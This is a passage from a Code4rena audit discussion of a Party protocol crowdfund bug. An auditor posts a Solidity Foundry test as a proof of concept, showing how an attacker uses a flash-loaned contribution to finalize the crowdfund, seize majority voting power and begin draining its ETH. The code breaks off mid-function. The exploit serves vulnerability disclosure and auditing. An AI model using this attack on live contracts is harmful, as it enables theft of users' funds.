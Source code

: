 **[0xean (judge) commented](https://github.com/code-423n4/2023-04-party-findings/issues/25#issuecomment-1509327981):**
 > Coded POC would have been welcomed here due to the number of steps in the attack, will review further. 

**[hansfriese commented](https://github.com/code-423n4/2023-04-party-findings/issues/25#issuecomment-1509442839):**
 > Hello @0xean - Here is a POC. It should be appended to `InitialETHCrowdfund.t.sol`
> 
> ```solidity
> function test_finalizeUsingFlashloan() public {
>         InitialETHCrowdfund crowdfund = _createCrowdfund({
>             initialContribution: 0,
>             initialContributor: payable(address(0)),
>             initialDelegate: address(0),
>             minContributions: 0,
>             maxContributions: type(uint96).max,
>             disableContributingForExistingCard: false,
>             minTotalContributions: 10 ether,
>             maxTotalContributions: 20 ether,
>             duration: 7 days,
>             fundingSplitBps: 0,
>             fundingSplitRecipient: payable(address(0))
>         });
> 
>         TokenDistributor distributor = new TokenDistributor(globals, 0);
>         globals.setAddress(LibGlobals.GLOBAL_TOKEN_DISTRIBUTOR, address(distributor));
> 
>         Party party = crowdfund.party();
> 
>         // Attacker has 1 ether now
>         address attacker = _randomAddress();
>         vm.deal(attacker, 1 ether);
> 
>         // An honest member has 9 ether
>         address member = _randomAddress();
>         vm.deal(member, 9 ether);
> 
>         // Contribute
>         vm.prank(attacker);
>         uint256 vp1 = crowdfund.contribute{ value: 1 ether }(attacker, "");
> 
>         vm.prank(member);
>         crowdfund.contribute{ value: 9 ether }(member, "");
> 
>         // Attacker noticed his voting power will be 10% after finalization, so he decided to contribute 10 ether using flashloan
>         vm.deal(attacker, 10 ether); // he borrowed 10 ether
> 
>         vm.prank(attacker);
>         uint256 vp2 = crowdfund.contributeFor{ value: 10 ether }(1, payable(attacker), attacker, ""); //contributed 10 ether again
> 
>         // Crowdfund is finalized
>         assertTrue(crowdfund.getCrowdfundLifecycle() == ETHCrowdfundBase.CrowdfundLifecycle.Finalized);
>         assertEq(party.getGovernanceValues().totalVotingPower, 20 ether);
>         assertEq(vp1 + vp2, 11 ether); //his voting power is 11/20 = 55% now
>         assertEq(address(party).balance, 20 ether);
>         assertEq(address(attacker).balance, 0); //attacker's eth balance = 0
> 
>         // attacker starts eth distribution of 19 ether from party's balance
>         vm.prank(attacker);